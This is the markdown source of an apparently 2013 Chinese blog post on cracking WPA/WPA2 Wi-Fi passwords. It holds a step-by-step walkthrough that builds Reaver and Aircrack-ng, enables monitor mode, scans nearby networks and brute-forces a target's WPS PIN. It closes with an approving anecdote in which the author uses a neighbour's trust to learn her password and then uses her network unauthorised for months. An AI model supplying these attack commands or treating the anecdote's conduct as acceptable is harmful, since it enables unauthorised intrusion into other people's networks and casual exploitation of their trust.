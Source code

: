 ```yaml
---
layout: post
title: "How to Hack a Wi-Fi's WPA/WPA2 Password"
date: 2013-06-13 22:30
comments: true
categories: [WiFi, Network]
---
```


要破解一个 Wi-Fi 的登录密码有很多方法，本人有两次获取到一个 Wi-Fi 密码的成功经验，一次是用技术手段破解，另一次是无意中使用了社会工程学，在这里给大家分享一下。

## 技术手段
使用技术手段去获取一个 Wi-Fi 的登录密码不需要你成为一个网络工程师，你只需要一台(1)带无线网卡 - (2)装有 Linux 系统 - (3)能联网的电脑，再加上一小时左右的时间就足够了。这一小时的时间需要你跟着下面的步骤来安装并使用破解所需软件。我以 Ubuntu 操作系统为例作讲解。

P.S. 下面内容需要你有一些基本的 Linux 命令行操作知识。

#### 1、下载并安装 Reaver
你可以从 Reaver 的[网站](https://code.google.com/p/reaver-wps/ "reaver") 下载最新版的 Reaver。或者直接在终端里执行以下命令：

	wget https://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz

解压 Reaver

	tar -xzvf reaver-1.4.tar.gz

编译安装 Reaver 前需要先安装一些编译依赖包

	sudo apt-get install build-essential libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev

不用在意你的系统是否会重复安装已存在依赖包的，Ubuntu 会自动跳过已安装依赖包，其它系统请自行检查。

编译并安装 Reaver

	cd reaver-1.4
	cd src
	./configure
	make
	sudo make install

#### 2、下载并按装 Aircrack-ng
你可以从 Aircrack-ng 的[网站](http://aircrack-ng.org/ "Aircrack-ng") 下载最新版的 Aircrack-ng，或者直接在终端里执行以下命令：
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta1.tar.gz

解压 Aircrack-ng
	tar -xzvf aircrack-ng-1.2-beta1.tar.gz

安装依赖包
	sudo apt-get install libssl-dev

编译并安装
	cd aircrack-ng-1.2-beta1
	make
	sudo make install

#### 3、使用 Aircrack-ng 和 Reaver 破解 WiFi
使用 `iwconfig` 命令来查看无线网卡接口，一般来说就是 `wlan0`。然后执行以下命令將无线网卡设置成监视模式
	sudo airmon-ng start wlan0

成功的话会看到 “**monitor mode enabled on mon0**” 的信息。

查看附近的无线网络
	sudo airodump-ng mon0

输出信息类似于：
	BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
	CX:7A:XX:2C:E6:XX  -60     189        1    0    7  54e  WPA  CCMP   PSK  Tenda_3CF670
	CX:XX:36:2F:1E:XX  -127    275     4416   310   7  54e. WPA  CCMP   PSK  Tenda_3C7D60

当搜索到若干无线网络后，按`<Ctrl+C>`停止搜索。复制某个无线网络的**BSSID**，然后就可以使用 Reaver 进行暴力破解了
	sudo reaver -i mon0 -b <BSSID> -vv

在 BSSID 中粘贴你之前复制的 BSSID，按回车后就可以开始破解了。然后你就可以约上三五知己出去玩半天，或者自己看两三部电影了——根据网络情况和电脑性能，破解一般需要4-10小时。

## 社会工程
那次对邻居小妹妹使用了社会工程获得她的 WiFi 密码也是无意为之的。事情经过大致是这样的：

我的无线网络有一天突然上不了网，重置路由器无数次还是不行。于是我就拿到邻居小妹那边测试看是不是路由器坏了。邻居小妹那个天真无邪啊，把宽带帐号密码和无线路由器密码都给了我来测试。我试了一段时间，路由器还是不能正常联网，我就判断我的59元路由器寿终正寝了，然后就失望地离开了邻家小妹家。

回到自己的出租屋里，突然醒悟邻家小妹的 WiFi 密码就是两个小写字母，后加123456，用手机搜到她家的 WiFi 后输入了密码，竟然就连上了！然后就果断蹭网蹭了好几个月。

**-EOF-**

____
版权声明：自由转载-非商用-非衍生-保持署名 | [Creative Commons BY-NC-ND 3.0](http://creativecommons.org/licenses/by-nc-nd/3.0/deed.zh "CC 3.0")

如果觉得本文对你有帮助，可付费支持作者 | <a href='http://me.alipay.com/zhaqiang'><img src='https://img.alipay.com/sys/personalprod/style/mc/btn-index.png' style="border:none;vertical-align:middle;"/></a>
